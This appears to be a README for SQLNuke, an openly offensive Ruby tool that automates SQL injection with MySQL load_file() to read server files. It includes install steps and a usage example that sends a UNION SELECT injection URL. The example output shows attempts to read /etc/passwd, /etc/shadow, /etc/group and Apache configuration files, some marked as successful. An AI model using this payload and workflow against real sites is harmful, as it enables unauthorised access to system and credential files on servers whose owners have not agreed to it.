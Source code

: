 ### SQLNuke
A powerful MYSQL Injection load_file() Fuzzer
SQLNuke is Simple SQL Injection load_file() fuzzer written in Object Oriented ruby version 1.8.7 .

In SQL Injection and when you need to gather some information out of the server . the best way you can think of is load_file() <a href="http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_load-file">http://dev.mysql.com/doc/refman/5.0/en/string-functions.html#function_load-file</a> function . and it take a amount of time when you have to guess and do it manually, so the idea of SQLNuke is to help to make the process fast and guess the internal common files using a list file.</p>

##Useage Clip
![SQLNuke](http://www.pixentral.com/pics/1rMmil6o1pSBnRFOQC8bpjdQvp.gif "SQLNuke")

## Requirements 
**git**
```
$ sudo apt-get install git-core
$ which git
_/usr/bin/git_
$ git --version
_git version 1.7.0.4_
```
**ruby  (Ubuntu)**

```
$ sudo apt-get install ruby
```
**SQLNuke Installation**

```
$ git clone https://github.com/nuke99/sqlnuke.git
$ cd sqlnuke
$ ./sql.rb
```
**Basic Useage**



```
root@hakb0x:/sqlnuke# ./sql.rb -u 'http://localhost/index.php?id=-1+UNION+SELECT+1,XxxX,3--'
[!] localhost folder already exists
[!] No OS selected, Continue with all the possibilities 
[200] - [Failed]     /etc/apache2/logs/access.log 
[200] - [Success]    /etc/hosts  
[200] - [Failed]     /home/apache/httpd.conf 
[200] - [Failed]     /usr/local/apache2/conf/httpd.conf 
[200] - [Failed]     /etc/apache2/vhosts.d/default_vhost.include 
[200] - [Failed]     /etc/apache2/apache2.conf 
[200] - [Failed]     /opt/apache/conf/httpd.conf 
[200] - [Failed]     /usr/local/apache/conf/httpd.conf 
[200] - [Failed]     /var/www/vhosts/sitename/httpdocs//etc/init.d/apache 
[200] - [Success]    /etc/passwd  
[200] - [Failed]     /etc/apache/apache.conf 
[200] - [Failed]     /etc/httpd/conf/httpd.conf 
[200] - [Failed]     /home/apache/conf/httpd.conf 
[200] - [Failed]     /etc/apache2/sites-available/default 
[200] - [Failed]     /etc/apache/httpd.conf 
[200] - [Failed]     /etc/httpd/access.log 
[200] - [Failed]     /etc/apache2/httpd.conf 
[200] - [Failed]     /etc/httpd/httpd.conf 
[200] - [Failed]     /etc/init.d/apache2/httpd.conf 
[200] - [Failed]     /etc/init.d/apache/httpd.conf 
[200] - [Success]    /etc/group  
[200] - [Failed]     C:/wamp/bin/apache/logs/access.log 
[200] - [Failed]     /etc/shadow 
....

[+] Saved files are in 'output/localhost'

```


###  Support or Contact @nuke_99
Twitter : https://twitter.com/nuke_99
